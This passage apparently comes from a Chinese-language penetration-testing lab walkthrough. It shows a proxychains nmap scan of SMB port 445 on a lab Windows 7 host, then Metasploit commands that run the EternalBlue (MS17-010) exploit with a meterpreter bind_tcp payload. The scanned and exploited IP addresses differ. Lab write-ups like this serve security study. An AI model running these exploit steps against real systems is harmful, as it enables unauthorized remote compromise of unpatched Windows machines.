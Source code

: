 成功访问Win7-3:192.168.77.129

```
┌──(kali㉿kali)-[~]
└─$ proxychains nmap -Pn -sT -p 445 192.168.77.129
```

![image-20211015125219692](assets/image-20211015125219692.png)



漏洞利用：

```
┌──(kali㉿kali)-[~]
└─$ proxychains msfdb run
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.77.128
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
```

![image-20211015143750876](assets/image-20211015143750876.png)
